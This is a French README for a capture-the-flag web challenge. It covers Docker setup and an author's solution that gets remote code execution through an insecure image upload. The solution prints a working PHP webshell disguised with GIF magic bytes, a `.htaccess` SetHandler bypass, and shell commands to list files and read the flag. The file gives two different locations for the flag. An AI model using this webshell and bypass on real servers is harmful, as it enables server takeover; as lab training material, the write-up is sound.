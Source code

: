 # Challenge CTF WEB : Blog'N'Upload

**Difficulté :** Intermédiaire
**Compétence visée :** Upload de fichiers non sécurisé, contournement de filtres, exécution de code à distance (RCE)
**Contexte :** Site de blog avec fonctionnalité d'upload d'image de profil.

## Description du Challenge

Bienvenue sur "Blog'N'Upload", un nouveau site de blog où les utilisateurs peuvent s'inscrire, se connecter et personnaliser leur profil avec une image. Une vulnérabilité a été découverte dans le processus d'upload de ces images. Votre mission est de l'exploiter pour exécuter du code sur le serveur et récupérer le flag caché.

## Déploiement du Challenge

1.  **Prérequis :**
    * Docker
    * Docker Compose

2.  **Cloner le dépôt (ou dézipper l'archive) :**
    ```bash
    # Si c'est un dépôt Git
    git clone [https://github.com/votre_repo/blog-n-upload.git](https://github.com/votre_repo/blog-n-upload.git)
    cd blog-n-upload
    # Si c'est une archive ZIP, dézippez-la et naviguez dans le dossier
    ```

3.  **Construire et lancer le conteneur Docker :**
    ```bash
    docker-compose up --build -d
    ```
    * `--build` : Construit l'image Docker (nécessaire la première fois ou après des modifications du `Dockerfile`).
    * `-d` : Lance le conteneur en arrière-plan (detached mode).

4.  **Accéder au challenge :**
    Le challenge sera accessible dans votre navigateur à l'adresse : `http://localhost/`

## Solution Attendue (pour le créateur du challenge)

Le but est d'exploiter la fonctionnalité d'upload de fichiers pour exécuter un webshell PHP et lire le fichier `flag.txt` situé à la racine du dossier `/var/www/html` dans le conteneur (`app/flag.txt` sur votre machine hôte).

### Étapes de résolution :

1.  **Inscription et Connexion :**
    * Créez un compte sur `http://localhost/register.php`.
    * Connectez-vous avec ce compte sur `http://localhost/login.php`.

2.  **Analyse de l'Upload :**
    * Naviguez vers la page de profil (`http://localhost/profile.php`).
    * Tentez d'uploader une image normale (`.jpg`, `.png`). Notez où elle est stockée (ex: `http://localhost/uploads/votre_username/image.jpg`).
    * Tentez d'uploader un fichier PHP simple (ex: `shell.php` contenant `<?php phpinfo(); ?>`). Le serveur devrait refuser l'upload en raison du filtre d'extension (`Désolé, seuls les fichiers JPG, JPEG, PNG & GIF sont autorisés.`).

3.  **Préparation du Webshell et du `.htaccess` :**
    * Le serveur Apache est configuré avec `AllowOverride All` pour le répertoire `/var/www/html`, ce qui signifie qu'il interprétera les fichiers `.htaccess`.
    * Créez deux fichiers :
        * **`shell.jpg`** (ou n'importe quel nom d'image) :
            ```php
            GIF89a; # Magic bytes pour contourner une éventuelle vérification de type de fichier
            <?php system($_GET['cmd']); ?>
            ```
            Le `GIF89a;` est un "magic byte" qui fait croire au serveur (ou à des outils de vérification) que le fichier est un GIF valide, même s'il contient du code PHP.

        * **`.htaccess`** :
            ```apache
            <FilesMatch "shell\.jpg">
                SetHandler application/x-httpd-php
            </FilesMatch>
            ```
            Ce fichier `.htaccess` indique à Apache de traiter spécifiquement `shell.jpg` comme un fichier PHP exécutable.

4.  **Upload des fichiers :**
    * **Uploadez d'abord le fichier `.htaccess`** via la page de profil. Étant donné qu'il n'a pas d'extension "interdite" (ce n'est pas un `.php` ou similaire), le système de filtre simple ne le bloquera pas. Il sera placé dans `uploads/votre_username/`.
    * **Ensuite, uploadez le fichier `shell.jpg`** via la même page de profil. Il sera également placé dans `uploads/votre_username/`.

5.  **Exécution du Webshell et Récupération du Flag :**
    * Accédez à l'URL de votre webshell : `http://localhost/uploads/votre_username/shell.jpg`.
    * Ajoutez un paramètre `cmd` à l'URL pour exécuter des commandes :
        * `http://localhost/uploads/votre_username/shell.jpg?cmd=ls -la /` (Pour lister la racine)
        * Vous devriez voir `flag.txt` dans la liste.
        * `http://localhost/uploads/votre_username/shell.jpg?cmd=cat /flag.txt` (Pour lire le flag)

    Le flag sera affiché dans la page.

## Nettoyage

Pour arrêter et supprimer les conteneurs et les images :
```bash
docker-compose down --rmi all